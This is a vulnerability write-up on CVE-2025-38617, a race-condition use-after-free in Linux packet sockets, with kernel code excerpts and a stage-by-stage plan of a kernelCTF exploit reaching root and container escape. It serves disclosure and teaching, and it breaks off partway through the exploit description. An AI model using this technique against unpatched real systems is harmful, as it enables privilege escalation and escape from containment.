




# A Race Within A Race: Exploiting CVE-2025-38617 in Linux Packet Sockets

## Table of Contents

- [Introduction](#introduction)
- [Background](#background)
  - [Packet Sockets](#packet-sockets)
  - [Ring Buffers and TPACKET_V3](#ring-buffers-and-tpacket_v3)
  - [Extended Attributes and `simple_xattr`](#extended-attributes-and-simple_xattr)
  - [Kernel Heap Mitigations: CONFIG_RANDOM_KMALLOC_CACHES and CONFIG_SLAB_VIRTUAL](#kernel-heap-mitigations-config_random_kmalloc_caches-and-config_slab_virtual)
- [The Vulnerability](#the-vulnerability)
  - [The Conditional Zeroing Bug](#the-conditional-zeroing-bug)
  - [The Race Window and UAF](#the-race-window-and-uaf)
- [The Key Insight: Sleeping Mutex Holders Stretch Race Windows](#the-key-insight-sleeping-mutex-holders-stretch-race-windows)
- [The Exploit](#the-exploit)
  - [Stage 0: Winning the Races](#stage-0-winning-the-races)
  - [Stage 1: Page Overflow Primitive (via xattr corruption)](#stage-1-page-overflow-primitive-via-xattr-corruption)
  - [Stage 2: Heap Read/Write via pgv Overlap](#stage-2-heap-readwrite-via-pgv-overlap)
  - [Stage 3: Arbitrary Page Read/Write via pgv Overlap](#stage-3-arbitrary-page-readwrite-via-pgv-overlap)
  - [Stage 4: KASLR Bypass via Pipe Buffer](#stage-4-kaslr-bypass-via-pipe-buffer)
  - [Stage 5: Privilege Escalation via Syscall Patching](#stage-5-privilege-escalation-via-syscall-patching)
- [The Fix](#the-fix)
- [Takeaways](#takeaways)

## Introduction

CVE-2025-38617 is a use-after-free vulnerability in the Linux kernel's packet socket subsystem, caused by a race condition between `packet_set_ring()` and `packet_notifier()`. The bug has existed since Linux 2.6.12 (2005) and was fixed in kernel version 6.16. It allows an unprivileged local attacker — needing only `CAP_NET_RAW`, obtainable through user namespaces — to achieve full privilege escalation and container escape.

The vulnerability and exploits were discovered and developed by Quang Le, a member of [Calif](https://calif.io), and submitted as part of Google's [kernelCTF](https://google.github.io/security-research/kernelctf/rules.html) program. Calif provides this complimentary write-up to offer additional background for educational purposes.

This article analyzes the vulnerability, the [exploit submission](https://github.com/google/security-research/pull/339), and the two-line fix. The exploit is notable for its sophistication: it defeats modern kernel mitigations including `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_VIRTUAL`, builds exploit primitives through a chain of four increasingly powerful stages, and uses creative timing techniques to win two separate race conditions deterministically.

But perhaps the most interesting aspect is the *bug-finding heuristic* it demonstrates: **when a mutex holder sleeps, the time window between lock release and the next critical operation becomes predictable and stretchable, turning otherwise unexploitable code sequences into reliable race conditions.**

- **Affected versions**: Linux 2.6.12 through 6.15
- **Affected component**: `net/packet/af_packet.c` (packet socket subsystem)
- **Root cause**: Race condition leading to use-after-free
- **Required capability**: `CAP_NET_RAW` (available via unprivileged user namespaces)
- **Fix commit**: [`01d3c8417b9c`](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=01d3c8417b9c1b884a8a981a3b886da556512f36)

## Background

### Packet Sockets

Linux packet sockets (`AF_PACKET`) provide raw access to network interfaces at the link layer. They're used by tools like `tcpdump` and `wireshark` to capture network traffic. When a packet arrives on a network interface, the kernel delivers a copy to any packet socket "hooked" to that interface through a registered protocol hook function.

Packet sockets have a lifecycle tied to network interface state:
- When the interface goes **UP**, the packet socket's protocol hook is registered, and the socket enters the `PACKET_SOCK_RUNNING` state. It can now receive packets.
- When the interface goes **DOWN**, the hook is unregistered, and the socket stops receiving packets.

These transitions are managed by `packet_notifier()`, which handles `NETDEV_UP` and `NETDEV_DOWN` events.

### Ring Buffers and TPACKET_V3

For high-performance packet processing, packet sockets support memory-mapped ring buffers. Instead of copying each packet through `recvmsg()`, the kernel writes packets directly into a shared memory region that userspace can `mmap()`. The ring buffer is configured through `setsockopt()` with `PACKET_RX_RING` (for receiving) or `PACKET_TX_RING` (for transmitting), which internally calls `packet_set_ring()`.

The ring buffer consists of multiple "blocks," each a contiguous allocation of kernel pages. These blocks are tracked by an array of `struct pgv` pointers:

```c
struct pgv {
    char *buffer;  // pointer to one block of pages
};
```

The `alloc_pg_vec()` function allocates this array and each block:
```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;
    struct pgv *pg_vec;
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order);
    }
    return pg_vec;
}
```

**How userspace accesses ring buffer blocks: `mmap()`.** When userspace calls `mmap()` on a packet socket file descriptor, the kernel's `packet_mmap()` handler walks the `pgv` array and maps each block's pages into the calling process's virtual address space as a single contiguous region. Block 0's pages appear first, followed by block 1's pages, and so on. The result is that userspace gets a pointer to a memory region where `offset 0` is the start of block 0, `offset block_size` is the start of block 1, etc. Reads/writes to this region go directly to the kernel pages backing the ring buffer, with no syscall overhead.

This mapping is based on what `pgv[N].buffer` points to **at mmap time**. The kernel resolves each `pgv` entry to its underlying physical page and maps that page into userspace. This has a critical implication for the exploit: if an attacker can overwrite a `pgv[N].buffer` pointer to an arbitrary kernel address and then call `mmap()`, the kernel will map whatever page lives at that address into userspace — giving the attacker direct read/write access to arbitrary kernel memory. This is exactly how Stages 2 and 3 escalate from a single corrupted pointer to full arbitrary page read/write.

TPACKET_V3, the most recent version of the packet socket ring buffer protocol, adds a block descriptor structure (`tpacket_kbdq_core`) that tracks which block is currently active, where the next packet header should be written, and when to retire (close) a full block and move to the next. Key fields include:

- `pkbdq`: pointer to the `pgv` array (the ring buffer itself)
- `kactive_blk_num`: index of the currently active block
- `nxt_offset`: pointer to where the next packet will be written within the current block
- `kblk_size`: size of each block
- `knum_blocks`: total number of blocks
- `blk_sizeof_priv`: size of the per-block private area

Each block's memory layout starts with a `tpacket_block_desc` header (48 bytes after alignment), followed by a **private area** of `blk_sizeof_priv` bytes, and then the actual packet data region. The private area is configured by userspace via the `tp_sizeof_priv` field of the `tpacket_req3` structure passed to `setsockopt(PACKET_RX_RING)`. The kernel reserves this space at the start of each block and never writes packet data into it — it exists so that userspace applications can store their own per-block metadata (e.g., custom timestamps or statistics). The packet write cursor (`nxt_offset`) is initialized to `block_start + 48 + ALIGN(blk_sizeof_priv, 8)`, skipping past both the header and the private area. As we'll see, the exploit sets `tp_sizeof_priv = 16248` to position the write cursor precisely where it needs to overflow into an adjacent object.

When a packet arrives, `tpacket_rcv()` is called, which looks up the current block via `pkbdq[kactive_blk_num].buffer`, finds the write position (`nxt_offset`), copies the packet data, and writes metadata headers. This is the function that will access freed memory in our vulnerability.

### Extended Attributes and `simple_xattr`

Extended attributes (xattrs) are name-value pairs that can be attached to files and directories, providing metadata beyond the standard file attributes (permissions, timestamps, etc.). They're organized into namespaces — `security.*` for SELinux labels and capabilities, `user.*` for arbitrary user data, `trusted.*` for privileged metadata, and so on. Userspace interacts with them through three syscalls: `setxattr()` to create or update, `getxattr()` to read, and `removexattr()` to delete.

Most filesystems store xattrs on disk, but in-memory filesystems like **tmpfs** have no disk backing. Instead, tmpfs stores xattrs entirely in kernel memory using the `simple_xattr` infrastructure. Each xattr is represented by a `struct simple_xattr`. On Linux 6.6 (which the exploit targets), xattrs are organized in a **red-black tree**:

```c
struct rb_node {
    unsigned long  __rb_parent_color;  // parent pointer + color bit
    struct rb_node *rb_right;
    struct rb_node *rb_left;
};  // 24 bytes

struct simple_xattr {
    struct rb_node rb_node;  // offset 0,  size 24 (tree node pointers)
    char *name;              // offset 24, size 8
    size_t size;             // offset 32, size 8  ← overflow target
    char value[];            // offset 40          (inline value)
};  // total header: 40 bytes
```

The `rb_node` at the start of the struct contains three pointers: `__rb_parent_color` (the parent pointer with the color bit encoded in the lowest bit), `rb_right`, and `rb_left`. These point to other `simple_xattr` nodes in the same red-black tree.

When userspace calls `setxattr("security.foo", value, size)` on a tmpfs file, the kernel allocates a `simple_xattr`, copies the name and value, and inserts it into the inode's collection. When `getxattr()` is called, the kernel traverses the collection comparing names, and when it finds a match, copies `size` bytes from `value[]` to the userspace buffer. If the userspace buffer is smaller than `size`, the kernel returns `ERANGE` — a behavior the exploit uses to detect corruption.

The `simple_xattr` is an ideal exploitation target for several reasons:

1. **Controlled allocation size.** The `kmalloc(header + value_size)` allocation can be steered to any slab cache or page order by choosing the right `value_size`. With `value_size = 8192`, the total allocation (40 + 8,192 = 8,232 bytes) is served from order-2 pages (16 KB).

2. **Controlled content.** The `value[]` data is fully attacker-controlled, and the `name` string is chosen by the attacker.

3. **Readable and writable via syscalls.** `getxattr()` reads `size` bytes starting from `value[]` — if `size` is corrupted to a larger value, the kernel reads past the object's actual data, leaking adjacent heap memory. `setxattr()` can update the value. `removexattr()` frees the object.

4. **Address leaking via node pointers.** The `rb_node` pointers contain kernel addresses of neighboring nodes in the tree. If an attacker can read these pointers, they learn the kernel addresses of other `simple_xattr` objects — the starting point for building further primitives.

5. **Sprayable.** Creating thousands of xattrs on a single tmpfs file is trivial — just call `setxattr()` in a loop with unique names (`"security.groom_0"`, `"security.groom_1"`, ...). The exploit sprays 2,048 of them to fill the heap predictably.

### Slab Allocator vs Page Allocator

The Linux kernel has two layers of memory allocation, and understanding the boundary between them is essential to this exploit.

The **page allocator** (also called the buddy allocator) is the bottom layer. It manages physical memory in power-of-2 page chunks: order-0 (4 KB), order-1 (8 KB), order-2 (16 KB), and so on. Every allocation is page-aligned. When pages are freed, adjacent free pages of the same order merge ("buddy") into higher-order blocks. Crucially, the page allocator has **no segregation by type** — all order-2 pages come from the same freelist. A freed order-2 page from a `simple_xattr` value can be reclaimed by an order-2 `pgv` array allocation; the page allocator doesn't know or care what the pages are used for.

The **slab allocator** (SLUB on modern kernels) sits on top of the page allocator. It requests pages from the buddy allocator and carves them into fixed-size slots for small objects. It has generic size classes (`kmalloc-8`, `kmalloc-16`, ... `kmalloc-8k`) and dedicated caches for specific struct types. Unlike the page allocator, slab caches are **segregated** — a freed `kmalloc-192` slot returns to its specific cache, and can only be reclaimed by another `kmalloc-192` allocation.

This boundary is the reason the exploit forces certain allocations to exceed `kmalloc-8k` (the largest generic slab bucket). An 8,200-byte `pgv` array can't fit in `kmalloc-8k`, so the allocator falls through to the page allocator, where the exploit's heap grooming controls which freed pages get reclaimed. If the allocation stayed within the slab, freed xattr pages and pgv arrays would live in completely different caches with no way to reclaim each other.

### Kernel Heap Mitigations: CONFIG_RANDOM_KMALLOC_CACHES and CONFIG_SLAB_VIRTUAL

The kernelCTF mitigation-v4-6.6 environment enables two modern heap mitigations that make traditional cross-cache attacks significantly harder.

**CONFIG_RANDOM_KMALLOC_CACHES** introduces 16 separate slab caches for each kmalloc size class (e.g., `kmalloc-rnd-01-32`, `kmalloc-rnd-02-32`, ... `kmalloc-rnd-16-32`). When the kernel calls `kmalloc()`, the allocation is routed to one of these 16 caches based on a hash of the **call site address** combined with a per-boot random seed. The goal is to prevent an attacker from predicting which cache an allocation lands in, breaking the classic exploit pattern of freeing object A from cache X and reclaiming it with object B from the same cache X. Since A and B come from different call sites, they'll likely land in different random caches and the reclamation fails.

The bypass: if two allocations come from the **same call site** (the same line of source code that calls `kmalloc`/`kcalloc`), they always hash to the same random cache, regardless of the boot seed. The exploit exploits this by using `alloc_pg_vec()` — the same function, the same `kcalloc()` call site — for both the victim ring buffer and the reclamation ring buffer. Both are `pgv` arrays allocated via `kcalloc(block_nr, sizeof(struct pgv), ...)` inside `alloc_pg_vec()`, so they're guaranteed to land in the same random cache.

**CONFIG_SLAB_VIRTUAL** (also known as "virtual slab") ensures that the virtual address range used for one slab cache type is never reused for a different slab cache type. In a normal kernel, freed slab pages can be returned to the page allocator and reallocated to a completely different slab cache, allowing cross-cache attacks. With `CONFIG_SLAB_VIRTUAL`, each cache gets a dedicated virtual address range — an allocation from `kmalloc-64` will always map to a `kmalloc-64` virtual address, even after being freed and reallocated. If an attacker frees a `kmalloc-64` object and tries to reclaim it with a `kmalloc-128` object, the virtual addresses won't overlap.

The bypass is the same principle: by reclaiming freed ring buffer memory with another ring buffer (same object type, same slab cache), the virtual addresses remain valid. The exploit doesn't need cross-cache attacks — it uses ring buffers to reclaim ring buffers throughout.

These mitigations force the exploit author into a disciplined pattern: every reclamation must use the same object type from the same call site. As we'll see, this constraint shapes the entire exploit architecture — from using TX ring buffers to reclaim RX ring buffers, to spraying `pgv` arrays to reclaim other `pgv` arrays.

## The Vulnerability

### The Conditional Zeroing Bug

The root cause is a logic error in `packet_set_ring()`. When reconfiguring a ring buffer, this function needs to temporarily unhook the packet socket from the network interface to ensure no packets arrive while the ring buffer is being swapped. Here's the relevant code:

```c
static int packet_set_ring(struct sock *sk, union tpacket_req_u *req_u,
        int closing, int tx_ring)
{
    // ...
    spin_lock(&po->bind_lock);
    was_running = packet_sock_flag(po, PACKET_SOCK_RUNNING);
    num = po->num;
    if (was_running) {
        WRITE_ONCE(po->num, 0);    // Only zeroed if was_running!
        __unregister_prot_hook(sk, false);
    }
    spin_unlock(&po->bind_lock);

    synchronize_net();

    mutex_lock(&po->pg_vec_lock);
    // ... swap ring buffers, free old ring ...
    mutex_unlock(&po->pg_vec_lock);

    spin_lock(&po->bind_lock);
    if (was_running) {
        WRITE_ONCE(po->num, num);   // Only restored if was_running!
        register_prot_hook(sk);
    }
    spin_unlock(&po->bind_lock);
}
```

The critical issue is the `if (was_running)` conditional around `WRITE_ONCE(po->num, 0)`. The `po->num` field determines the protocol number the socket is registered for. When it's non-zero, the `NETDEV_UP` handler in `packet_notifier()` will re-register the protocol hook:

```c
case NETDEV_UP:
    if (dev->ifindex == po->ifindex) {
        spin_lock(&po->bind_lock);
        if (po->num)                    // <-- checks po->num
            register_prot_hook(sk);     // re-hooks the socket!
        spin_unlock(&po->bind_lock);
    }
    break;
```

**The bug**: If the packet socket is *not* currently running when `packet_set_ring()` is called, `po->num` retains its original non-zero value. After `spin_unlock(&po->bind_lock)`, there is a window where `packet_set_ring()` has released the bind lock but has not yet finished reconfiguring the ring buffer. If a `NETDEV_UP` event arrives during this window, `packet_notifier()` sees `po->num != 0` and calls `register_prot_hook()`, re-hooking the socket to the network interface. Now the socket can receive packets while `packet_set_ring()` is in the middle of freeing and replacing the ring buffer.

### The Race Window and UAF

The exploit triggers the vulnerability through a two-race sequence:

**Race 1: `packet_set_ring()` vs `packet_notifier()`**

The attacker ensures the packet socket is bound to a network interface but *not* running (the interface is DOWN). Then:
1. Call `packet_set_ring()` to free the existing RX ring buffer
2. After `packet_set_ring()` releases `bind_lock` but before it acquires `pg_vec_lock`, bring the interface UP
3. `packet_notifier()` sees `po->num != 0`, re-registers the protocol hook
4. The socket is now "running" and can receive packets, even though `packet_set_ring()` hasn't finished

**Race 2: `packet_set_ring()` vs `tpacket_rcv()`**

Now that the hook is registered, sending a packet to the interface triggers `tpacket_rcv()`. This function reads the ring buffer metadata (`prb_bdqc`) which still points to the old ring buffer. Meanwhile, `packet_set_ring()` proceeds to free that same ring buffer inside the `pg_vec_lock` critical section:

```c
mutex_lock(&po->pg_vec_lock);
    swap(rb->pg_vec, pg_vec);     // pg_vec now holds old ring buffer
    // ...
mutex_unlock(&po->pg_vec_lock);
// ...
free_pg_vec(pg_vec, order, req->tp_block_nr);  // free the old ring!
```

If `tpacket_rcv()` accesses the ring buffer after it has been freed, we have a **use-after-free**. The TPACKET_V3 `prb_bdqc` structure is particularly useful for exploitation because its pointers to the ring buffer (`pkbdq`, `nxt_offset`, `pkblk_start`, etc.) are **not** zeroed when the ring is freed. The freed `pg_vec` array has its individual buffer pointers set to NULL by `free_pg_vec()`, but the `prb_bdqc` still holds the stale addresses.

## The Key Insight: Sleeping Mutex Holders Stretch Race Windows

The most important takeaway from this exploit — and a generalizable bug-finding heuristic for kernel security researchers — is this: **if you can make a mutex holder sleep, you can stretch the time window between any lock release and subsequent lock acquisition to an arbitrary duration**.

In `packet_set_ring()`, there's a critical gap between releasing `bind_lock` and acquiring `pg_vec_lock`:

```c
spin_unlock(&po->bind_lock);    // Race 1 window opens
synchronize_net();
mutex_lock(&po->pg_vec_lock);   // Race 1 window closes
```

Normally, `synchronize_net()` completes quickly and `mutex_lock()` succeeds immediately, making this window very tight. But the `pg_vec_lock` mutex is also acquired by `tpacket_snd()`:

```c
static int tpacket_snd(struct packet_sock *po, struct msghdr *msg)
{
    mutex_lock(&po->pg_vec_lock);       // holds the mutex
    // ...
    timeo = wait_for_completion_interruptible_timeout(
        &po->skb_completion, timeo);    // SLEEPS while holding it!
    // ...
    mutex_unlock(&po->pg_vec_lock);
}
```

The exploit pre-acquires `pg_vec_lock` by calling `sendmsg()` on the victim socket's TX ring in a way that reaches `wait_for_completion_interruptible_timeout()`. This puts the thread to sleep for a configurable duration (set via `SO_SNDTIMEO`) while holding the mutex. Now `packet_set_ring()` blocks at `mutex_lock(&po->pg_vec_lock)` for a *predictable, attacker-controlled* period — in this case, one full second.

This transforms a nanosecond-scale race window into a one-second window, making the first race essentially **deterministic**: there is ample time to bring the network interface UP and register the protocol hook.

**This pattern generalizes.** When auditing kernel code for race conditions, look for:
1. A sequence where lock A is released, work happens, then lock B is acquired
2. A separate code path that holds lock B and can sleep (mutexes allow sleeping; spinlocks do not)
3. A way to trigger that sleeping code path before the racing code path

If all three conditions are met, the race window between releasing lock A and acquiring lock B becomes arbitrarily stretchable. Code that appeared "safe enough" because the window was tiny becomes trivially exploitable.

## The Exploit

The exploit targets the kernelCTF mitigation-v4-6.6 environment — Google's Container-Optimized OS (COS) with additional kernel security mitigations enabled, running Linux 6.6. It achieves full privilege escalation and container escape. It builds exploit primitives through four stages, each more powerful than the last, culminating in arbitrary kernel memory read/write and shellcode execution.

At a high level, the exploit proceeds through these steps:

```
1. Setup
   ├─ Create user + network namespaces (for CAP_NET_RAW)
   ├─ Mount tmpfs (for simple_xattr storage)
   ├─ Create dummy network interface ("pwn_dummy"), bring it UP
   ├─ Create timerfd
   └─ Spawn worker threads
       ├─ 180 × timerfd_waitlist_thread (CPU 1)
       │     each: unshare(CLONE_FILES) → dup(timerfd) × ~4000 → epoll_ctl() × ~4000
       │     result: ~720,000 wait queue entries on timerfd
       ├─ pg_vec_lock_thread (CPU 0, nice=19)
       ├─ pg_vec_buffer_thread (CPU 0, normal priority)
       └─ tpacket_rcv_thread (CPU 1)

2. Stage 0: Win the races
   ├─ Create victim packet socket (AF_PACKET, TPACKET_V3, BPF filter, bound to dummy)
   ├─ First race (deterministic via mutex barrier)
   │     ├─ pg_vec_lock_thread: sendmsg() → tpacket_snd() → hold pg_vec_lock for 1s
   │     ├─ Main: bring interface DOWN (unhooks socket, but po->num not zeroed)
   │     ├─ pg_vec_buffer_thread: setsockopt(PACKET_RX_RING, 0) → packet_set_ring()
   │     │     → passes bind_lock section (bug!) → blocks on pg_vec_lock
   │     └─ Main: bring interface UP → packet_notifier(NETDEV_UP) re-hooks socket
   └─ Second race (BPF filter + timer interrupt)
         ├─ Arm timerfd at pg_vec_lock_release_time + 150μs
         ├─ tpacket_rcv_thread: send packet ~5μs before mutex release
         ├─ tpacket_rcv() dispatched → enters run_filter() (700 BPF instructions)
         ├─ pg_vec_lock released → packet_set_ring() frees ring buffer
         ├─ Timer interrupt fires on CPU 1 → walks 720K waitqueue entries
         │     (tpacket_rcv frozen with interrupts disabled)
         ├─ pg_vec_buffer_thread reclaims freed pages
         ├─ Interrupt returns → tpacket_rcv() writes to reclaimed pages (UAF!)
         └─ Overflow: packet data overwrites simple_xattr.size → 65536

3. Stage 1: Heap read primitive (via corrupted xattr)
   ├─ getxattr() on corrupted xattr reads 64KB of adjacent heap memory
   ├─ Scan for neighboring simple_xattr → leak kernel addresses
   └─ Result: read order-2 pages relative to corrupted xattr

4. Stage 2: Heap read/write primitive (via pgv overlap)
   ├─ Spray 256 ring buffers (pgv arrays on order-2 pages)
   ├─ Free sparse holes → trigger second race → overflow into pgv[3]
   ├─ Detect overlapped ring buffer via mmap + is_data_look_like_simple_xattr()
   └─ Result: read/write fields of a single simple_xattr in kernel memory

5. Stage 3: Arbitrary page read/write (via pgv overlap)
   ├─ Leak two order-2 page addresses via setxattr/read/removexattr
   ├─ Reclaim freed pages with ring buffer blocks, validate via getxattr
   ├─ Build fake simple_xattr → link into xattr collection
   ├─ removexattr(fake) → frees both pages
   ├─ Allocate third ring buffer (1025 blocks) → pgv lands on freed page
   ├─ Detect pgv overlap: master ring buffer block = puppet's pgv array
   └─ Result: mmap master → overwrite puppet's pgv[0] → mmap puppet → arbitrary page R/W

6. Stage 4: KASLR bypass (via pipe buffer)
   ├─ Leak page address → free → reclaim with pipe_buffer (fcntl F_SETPIPE_SZ)
   ├─ Arbitrary page read → find pipe_buffer.ops (anon_pipe_buf_ops)
   └─ Result: kernel base = ops - known_offset

7. Stage 5: Privilege escalation (via syscall patching)
   ├─ Arbitrary page write → overwrite __do_sys_kcmp with shellcode
   ├─ Shellcode: task->cred = task->real_cred = init_cred
   └─ Result: kcmp() → root + container escape
```

### Stage 0: Winning the Races

#### First Race: Deterministic via Mutex Barrier

The "first race" isn't really a traditional race where two threads sprint and one hopes to win by luck. The exploit **eliminates the randomness entirely** by converting it into a deterministic sequence using a mutex as a barrier.

**How `tpacket_snd()` holds `pg_vec_lock` while sleeping**

The exploit needs a way to hold the `pg_vec_lock` mutex for a controlled duration. It finds this in `tpacket_snd()`, the kernel's TX path for packet sockets. Here's the relevant code path:

```c
static int tpacket_snd(struct packet_sock *po, struct msghdr *msg)
{
    bool need_wait = !(msg->msg_flags & MSG_DONTWAIT);  // [1] controllable

    mutex_lock(&po->pg_vec_lock);                        // [2] grab the mutex

    // ... validate device is UP, etc ...

    do {
        ph = packet_current_frame(po, &po->tx_ring, TP_STATUS_SEND_REQUEST);
        if (unlikely(ph == NULL)) {
            if (need_wait && skb) {                      // [3] need skb != NULL
                timeo = sock_sndtimeo(&po->sk, ...);    // from SO_SNDTIMEO
                timeo = wait_for_completion_interruptible_timeout(
                    &po->skb_completion, timeo);         // [4] SLEEP here!
                if (timeo <= 0) {
                    err = !timeo ? -ETIMEDOUT : -ERESTARTSYS;
                    goto out_put;
                }
            }
            continue;
        }

        skb = NULL;
        tp_len = tpacket_parse_header(po, ph, ...);     // [5] read from TX ring
        if (tp_len < 0) goto tpacket_error;

        skb = sock_alloc_send_skb(&po->sk, ...);        // [6] after this, skb != NULL

        tp_len = tpacket_fill_skb(po, skb, ...);        // [7] can force tp_len < 0
        if (unlikely(tp_len < 0)) {
tpacket_error:
            if (packet_sock_flag(po, PACKET_SOCK_TP_LOSS)) {  // [8]
                __packet_set_status(po, ph, TP_STATUS_AVAILABLE);
                packet_increment_head(&po->tx_ring);
                kfree_skb(skb);
                continue;                                // [9] loop again!
            }
        }
        // ...
    } while (...);

out:
    mutex_unlock(&po->pg_vec_lock);                      // [10] finally release
}
```

The exploit navigates this code path as follows:

1. Call `sendmsg()` **without** `MSG_DONTWAIT`, so `need_wait = true`.
2. The mutex is acquired at [2].
3. First loop iteration: a TX frame is found (the exploit pre-wrote `TP_STATUS_SEND_REQUEST` via `mmap()`). At [5], `tpacket_parse_header()` reads `tp_len` from the mmapped ring — the exploit set `tp_len = 1`, which is too small, causing `tpacket_fill_skb()` at [7] to return a negative error. But first, `sock_alloc_send_skb()` at [6] sets `skb != NULL`.
4. The `PACKET_SOCK_TP_LOSS` flag is set (via `setsockopt(PACKET_LOSS)`), so we hit [8] → [9] and `continue` back to the top of the loop.
5. Second loop iteration: no more frames with `TP_STATUS_SEND_REQUEST`, so `ph == NULL`. Now `need_wait == true` and `skb != NULL` (from the first iteration's allocation), so we enter [3] → [4]: `wait_for_completion_interruptible_timeout()`. **The thread sleeps for `SO_SNDTIMEO` duration (1 second) while holding `pg_vec_lock`.**

There's a subtlety: `sock_alloc_send_skb()` checks `sk->sk_err` and returns NULL if it's set. When the interface goes DOWN, `packet_notifier()` sets `sk->sk_err = ENETDOWN`. Since the exploit needs the interface to be DOWN later for the bug trigger, it must ensure the interface is still UP when `tpacket_snd()` runs. The ordering matters.

**The deterministic sequence**

**Setup: the dummy interface and victim socket.** The exploit runs inside a user namespace (for `CAP_NET_RAW`) and a network namespace (for a controlled network environment). It creates a dummy network interface named `"pwn_dummy"` via netlink (`RTM_NEWLINK` with `IFLA_INFO_KIND = "dummy"`), sets its MTU to `IPV6_MIN_MTU - 1` (1279 bytes), and brings it UP via `ioctl(SIOCSIFFLAGS, IFF_UP | IFF_RUNNING)`. A dummy interface is ideal because it's a pure software device — packets sent to it are immediately looped back to the protocol handler, so the exploit doesn't need any real hardware or network traffic.

The exploit then creates the **victim packet socket** — an `AF_PACKET`/`SOCK_RAW` socket bound to this dummy interface with `sll_protocol = htons(ETH_P_ALL)` (receive all protocol types). The socket is configured with TPACKET_V3 ring buffers (both TX and RX), `PACKET_LOSS` enabled, `SO_SNDTIMEO` set to 1 second, `PACKET_RESERVE` set to 38, and a 700-instruction BPF filter attached. The RX ring is the one that will be freed during the race; the TX ring provides the frame needed for the `tpacket_snd()` sleep trick. At this point, the victim socket is UP and actively receiving packets — the starting state needed for the exploit.

**Worker threads.** The exploit creates three worker threads:

